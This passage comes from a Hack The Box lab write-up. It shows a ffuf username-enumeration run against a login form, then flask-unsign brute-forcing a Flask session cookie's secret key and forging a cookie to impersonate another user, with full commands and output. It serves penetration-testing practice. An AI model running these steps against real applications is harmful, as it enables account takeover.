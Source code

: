 ```shell
┌─[htb-enum0re☺pwnbox-base]─[~]
└──╼ $ffuf -u http://10.10.11.160:5000/login -d 'username=FUZZ&password=2343442' -H 'Content-Type:application/x-www-form-urlencoded' -w names.txt -mr 'Invalid login'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.11.160:5000/login
 :: Wordlist         : FUZZ: names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=2343442
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Invalid login
________________________________________________

blue                    [Status: 200, Size: 2029, Words: 432, Lines: 69]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

`blue` is another user.

### Crack Flask-session cookie

`flask-unsign` tool helps to crack the cookie,

```shell
┌─[htb-enum0re☺pwnbox-base]─[~/htb/boxes/noter]
└──╼ $ flask-unsign -u -nE -w ~/htb/boxes/noter/www/rockyou.txt -c eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiMHhtM21vcnkifQ.YxdlwQ.Ncoz_DXhXW3k_rGVrV8yjuWXxMg
[*] Session decodes to: {'logged_in': True, 'username': '0xm3mory'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```

	secret -> secret123

Now we are going to manipulate the username to `blue` for to get the `JWT` token

```shell
┌─[htb-enum0re☺pwnbox-base]─[~/htb/boxes/noter]
└──╼ $ flask-unsign -s  --secret 'secret123' -c '{"logged_in": True, "username": "blue"}'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YxdnBQ.bg7BmShdAUJQCO_OVc3f1zbBefg
```
